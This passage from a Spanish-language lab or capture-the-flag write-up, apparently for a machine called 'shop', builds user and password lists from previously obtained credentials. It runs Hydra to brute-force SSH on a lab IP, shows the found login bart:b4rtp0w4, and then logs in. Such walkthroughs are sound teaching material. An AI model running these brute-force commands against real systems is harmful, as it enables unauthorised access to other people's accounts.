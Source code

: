 Veremos que hemos sacados las credenciales de dichos usuarios, por lo que vamos a crearnos un listado de usuarios y contraseñas para probarlas directamente en `SSH` a ver si hay suerte.

> users.txt

```
bart
liam
mike
peter
```

> pass.txt

```
b4rtp0w4
liam@nd3rs0n
mikeblabla
peter123!
```

### Hydra

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-10 03:56:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ssh://192.168.5.74:22/
[22][ssh] host: 192.168.5.74   login: bart   password: b4rtp0w4
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-10 03:56:57
```

### SSH

```shell
ssh bart@<IP>
```

Metemos como contraseña `b4rtp0w4` y veremos que estaremos dentro.

Info:

```
bart@shop:~$ whoami
bart
```

